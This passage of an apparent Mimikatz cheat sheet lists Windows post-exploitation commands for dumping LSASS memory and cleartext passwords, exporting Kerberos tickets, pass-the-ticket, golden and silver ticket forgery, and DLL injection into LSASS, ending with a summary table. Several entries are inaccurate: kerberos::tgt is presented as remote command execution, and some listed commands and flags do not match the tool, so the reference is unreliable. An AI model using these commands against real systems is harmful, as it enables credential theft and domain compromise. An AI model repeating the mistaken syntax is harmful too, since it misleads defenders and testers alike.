 16. **Execute a Command on Remote Systems**
    - **Command:**
      ```bash
      mimikatz # kerberos::tgt /user:<username> /rc4:<NTLM hash> /domain:<domain> /sid:<SID>
      ```
    - **Example:**
      ```bash
      mimikatz # kerberos::tgt /user:admin /rc4:5baa61e4 /domain:example.com /sid:S-1-5-21-...
      ```
    - **Description:** Creates and uses Kerberos tickets to execute commands remotely.

17. **Dump LSASS Memory**
    - **Command:**
      ```bash
      mimikatz # sekurlsa::dumps
      ```
    - **Example:**
      ```bash
      mimikatz # sekurlsa::dumps
      ```
    - **Description:** Dumps the memory of LSASS for credential extraction.

### **Summary of Mimikatz Commands**

|**Command**|**Command Example**|**Description**|
|---|---|---|
|Start Mimikatz|`mimikatz`|Launches Mimikatz|
|Get Basic Information|`mimikatz # privs`|Displays current privileges|
|Dump Cleartext Passwords|`mimikatz # sekurlsa::logonpasswords`|Dumps cleartext passwords and hashes|
|Dump NTLM Hashes|`mimikatz # sekurlsa::logonpasswords /export`|Dumps NTLM hashes to file|
|Kerberos Ticket Extraction|`mimikatz # kerberos::tickets`|Extracts and lists Kerberos tickets|
|Dump Kerberos Tickets to File|`mimikatz # kerberos::tickets /export`|Exports Kerberos tickets to file|
|Pass-the-Ticket Attack|`mimikatz # kerberos::ptt ticket.kirbi`|Passes Kerberos ticket to session|
|Dump DCOM Credentials|`mimikatz # dcom::cred`|Dumps DCOM credentials from memory|
|Extract Credentials from LSASS|`mimikatz # sekurlsa::logonpasswords /dump`|Dumps credentials from LSASS|
|Inject a DLL into LSASS|`mimikatz # misc::inject c:\path\to\dll.dll`|Injects DLL into LSASS|
|Create a Kerberos Ticket|`mimikatz # kerberos::tgt /user:<username> /rc4:<NTLM hash> /domain:<domain>`|Creates a Kerberos TGT|
|Generate a Ticket Granting Ticket|`mimikatz # kerberos::tgt /user:<username> /rc4:<NTLM hash> /domain:<domain> /sid:<SID>`|Generates a TGT with a specified SID|
|Generate a Golden Ticket|`mimikatz # kerberos::golden /user:<username> /rc4:<NTLM hash> /domain:<domain> /sid:<SID>`|Creates a Kerberos Golden Ticket|
|Generate a Silver Ticket|`mimikatz # kerberos::silver /user:<username> /rc4:<NTLM hash> /service:<service name> /sid:<SID>`|Generates a Kerberos Silver Ticket|
|Enumerate Domain Controllers|`mimikatz # net::domain`|Enumerates domain controllers|
|Execute a Command on Remote Systems|`mimikatz # kerberos::tgt /user:<username> /rc4:<NTLM hash> /domain:<domain> /sid:<SID>`|Uses Kerberos tickets to execute commands remotely|
|Dump LSASS Memory|`mimikatz # sekurlsa::dumps`|Dumps LSASS memory for credential extraction

Mimikatz is a powerful tool for post-exploitation, particularly for Windows environments, and its versatility makes it a critical utility for security professionals and attackers alike.